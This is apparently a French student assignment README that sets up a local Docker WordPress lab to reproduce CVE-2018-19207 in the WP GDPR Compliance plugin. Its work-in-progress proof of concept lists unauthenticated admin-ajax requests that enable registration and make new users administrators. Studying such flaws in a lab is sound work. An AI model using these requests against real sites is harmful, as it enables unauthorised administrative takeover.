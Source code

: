 # SDSI
Devoir 2 - Faille CVE-2018-19207

## Démarrer les containers
```
docker-compose up
```

## Configuration de wordpress
1. Se connecter au site via http://localhost:8000/
2. Créer le compte administrateur
3. Activer le plugin "WP GDPR Compliance" via http://localhost:8000/wp-admin/plugins.php > "Activate"

## PoC (WIP)

1. Se connecter sur le home du site
Requête GET à http://localhost:8000/

2. Autoriser la création de nouveaux utilisateurs
Requête POST à http://localhost:8000/wp-admin/admin-ajax.php
Paramètres: '{"type": "save_setting", "append": "false", "option": "users_can_register", "value": "1"}'

3. Tous les nouveaux utilisateurs sont admins
Requête POST à http://localhost:8000/wp-admin/admin-ajax.php
Paramètres: '{"type": "save_setting", "append": "false", "option": "default_role", "value": "administrator"}'

4. Créer un compte via http://localhost:8000/wp-login.php?action=register
